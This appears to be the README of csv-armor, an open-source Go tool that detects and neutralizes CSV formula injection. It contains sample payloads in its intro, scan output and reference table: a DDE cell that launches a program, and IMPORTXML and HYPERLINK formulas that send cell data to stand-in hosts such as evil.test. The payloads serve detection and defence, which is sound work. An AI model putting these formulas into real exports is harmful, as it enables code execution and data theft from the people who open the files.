

# csv-armor

[English](README.md) | [中文](README.zh.md) | [日本語](README.ja.md)

[](LICENSE) [](go.mod) [](CHANGELOG.md)  [](CONTRIBUTING.md)

**csv-armor: detect and neutralize CSV formula injection before spreadsheets execute your data.**


```bash
git clone https://github.com/JaydenCJ/csv-armor && cd csv-armor
go build -o csv-armor ./cmd/csv-armor    # single static binary, stdlib only
```

> Pre-release: v0.1.0 is not tagged on a package registry yet; build from source as above (any Go ≥1.22).

## Why csv-armor?

Any feature that lets a user put text into a cell and later exports it as CSV is a formula-injection sink: when the file is opened, Excel, Google Sheets, or LibreOffice treats a cell beginning with `= + - @` (or a leading TAB) as a *formula* and evaluates it — so a support ticket titled `=cmd|' /C calc'!A0` runs a program, and `=IMPORTXML("http://evil.test?"&A1)` exfiltrates the row. It is OWASP-listed and keeps reappearing in bug bounties, yet most codebases "fix" it with a one-line prefix that a leading space bypasses, or a blocklist that also mangles every negative number and phone column. csv-armor is two tools that share one classification: a **scanner** with CI-friendly exit codes and SARIF output that quotes the exact reason for every finding, and a **sanitizer** that neutralizes cells with documented, per-application escaping rules — so the same engine that flags a payload in CI is the one that defuses it on export.

| | csv-armor | manual `'` prefix | naive blocklist | spreadsheet import guard |
|---|---|---|---|---|
| Detects `= + - @` triggers | ✅ | n/a | ✅ | ✅ |
| Handles leading-whitespace bypass | ✅ | ❌ | usually ❌ | varies |
| Per-application rules (Excel/Sheets/LibreOffice) | ✅ | ❌ | ❌ | one app only |
| Escalates DDE / network-function payloads | ✅ | ❌ | ❌ | ❌ |
| No false positives on numbers / phones | ✅ | n/a | ❌ | ✅ |
| CI exit codes + SARIF | ✅ | ❌ | ❌ | ❌ |
| Scanner *and* sanitizer, one classification | ✅ | sanitize only | detect only | sanitize only |
| Runtime dependencies | 0 | 0 | varies | n/a |

<sub>Dependency count checked 2026-07-12: csv-armor imports the Go standard library only. Payload and rule references follow the OWASP CSV Injection guidance.</sub>

## Features

- **Two tools, one engine** — the `scan` and `sanitize` subcommands share a single cell classifier, so whatever the scanner flags at cell start, the sanitizer provably neutralizes (asserted over the whole payload corpus in tests).
- **Per-application escaping rules** — `--profile excel|sheets|libreoffice|all` models the trigger characters and network-capable functions each program actually honors; the full table lives in [docs/escaping-rules.md](docs/escaping-rules.md).
- **Severity that reflects real risk** — a plain `=1+1` is medium, but a cell reaching DDE (`=cmd|'…'!A0`) or a network function (`WEBSERVICE`, `IMPORTXML`, `HYPERLINK`) is escalated to high, because those execute code or exfiltrate data on open.
- **CI-ready output** — `scan --fail-on high` exits 1 for a pipeline gate, and `--format sarif` drops findings straight into a GitHub code-scanning tab; `--format json` is a stable `schema_version: 1` envelope.
- **Low false positives** — signed numbers, international phone numbers, and bare `@handles` are exempt by default, with `--paranoid` to flag them when silent data corruption also matters.
- **Faithful sanitization** — `quote` mode adds the OWASP apostrophe (visible value unchanged), `strip` mode removes triggers; both preserve the file's delimiter, BOM, and line endings.
- **Zero dependencies, fully offline** — Go standard library only; csv-armor reads local files and writes local files, and nothing else. No telemetry, no network, ever.

## Quickstart

```bash
git clone https://github.com/JaydenCJ/csv-armor && cd csv-armor
go build -o csv-armor ./cmd/csv-armor
./csv-armor scan examples/exports.csv
```

Real captured output:

```text
examples/exports.csv
  5 finding(s) across 35 cells (comma-delimited)
  !   R3C3  [medium/formula]  cell starts with "=" — the application evaluates it as a formula
         value: =1+1
  !!  R4C3  [high/dde]  DDE payload piping to "cmd" — opening the file can execute a local program
         value: =cmd|' /C calc'!A0
  !!  R5C3  [high/exfiltration]  calls IMPORTXML() — can send sheet data to an attacker-controlled host
         value: =IMPORTXML("http://example.test/x","//a")
  ·   R6C3  [low/at-sign]  cell starts with "@" — Excel evaluates legacy Lotus @-functions
         value: @SUM(A1:A9)
  !!  R7C3  [high/exfiltration]  calls HYPERLINK() — can send sheet data to an attacker-controlled host
         value: =HYPERLINK("http://example.test?leak="&A1)

summary (profile: all)
  files          1 scanned, 1 flagged
  cells          35
  findings       5  (high 3, medium 1, low 1)
  by kind        at-sign 1, dde 1, exfiltration 2, formula 1
```

Harden the export so nothing evaluates (`csv-armor sanitize`, real output):

```text
id,name,note,phone,balance
1,Alice,welcome aboard,+1 555-0100,-25.00
2,Bob,'=1+1,+44 20 7946 0000,-1250.50
3,Mallory,'=cmd|' /C calc'!A0,+81 90-1234-5678,0
4,Eve,"'=IMPORTXML(""http://example.test/x"",""//a"")",+1 555-0142,42.00
5,Trent,'@SUM(A1:A9),+1 555-0177,-3.50
6,Peggy,"'=HYPERLINK(""http://example.test?leak=""&A1)",+1 555-0188,17.25
```

## Detection reference

Classification is rule-based and quotable — full per-application rules in [docs/escaping-rules.md](docs/escaping-rules.md).

| Kind | Example cell | Severity |
|---|---|---|
| `formula` | `=SUM(A1:A9)` | medium |
| `arithmetic` | `+1+1`, `-2+3` | low |
| `at-sign` | `@SUM(A1:A2)` (Excel only) | low |
| `control` | cell starting with TAB or CR (Excel only) | low |
| `dde` | `=cmd|' /C calc'!A0`, `=DDE(…)` | high |
| `exfiltration` | `=WEBSERVICE(…)`, `=IMPORTXML(…)`, `=HYPERLINK(…)` | high |
| `embedded` | a later line of a multi-line cell starts with a trigger | low |

## CLI reference

`csv-armor [scan|sanitize|version] [flags] [path]`. Exit codes: 0 ok, 1 findings at/above `--fail-on`, 2 usage error, 3 runtime error.

| Flag | Default | Effect |
|---|---|---|
| `--profile` | `all` | rule set: `all`, `excel`, `sheets`, `libreoffice` |
| `--delimiter` | auto | force a delimiter, e.g. `tab` for TSV (default: sniff) |
| `--paranoid` | off | also flag signed numbers, phones, and bare `@handles` |
| `--format` (scan) | `text` | `text`, `json`, or `sarif` |
| `--fail-on` (scan) | `high` | exit 1 at this severity: `high`, `medium`, `low`, `none` |
| `--quiet` (scan) | off | print only the one-line summary |
| `--mode` (sanitize) | `quote` | `quote` (add `'`) or `strip` (remove triggers) |
| `--in-place` (sanitize) | off | overwrite the input file |
| `--output` (sanitize) | — | write sanitized CSV to this file |

## Architecture



## Roadmap

- [x] v0.1.0 — per-application detection engine, DDE/exfiltration escalation, scan with text/JSON/SARIF and `--fail-on` gate, quote/strip sanitizer, 90 tests + smoke script
- [ ] Streaming mode for CSVs larger than memory
- [ ] Column-scoped rules (`--only col=note` / `--ignore col=formula_ok`)
- [ ] A pre-commit hook config and a reusable GitHub Action wrapper
- [ ] Excel `.xlsx`/`.xlsm` shared-strings scanning (not just CSV)
- [ ] Configurable custom network-function lists per profile

See the [open issues](https://github.com/JaydenCJ/csv-armor/issues) for the full list.

## Contributing

Issues, discussions and pull requests are welcome — see [CONTRIBUTING.md](CONTRIBUTING.md) for the local workflow (format, vet, tests, `SMOKE OK`). Good entry points are labelled [good first issue](https://github.com/JaydenCJ/csv-armor/issues?q=is%3Aissue+is%3Aopen+label%3A%22good+first+issue%22), and design questions live in [Discussions](https://github.com/JaydenCJ/csv-armor/discussions).

## License

[MIT](LICENSE)
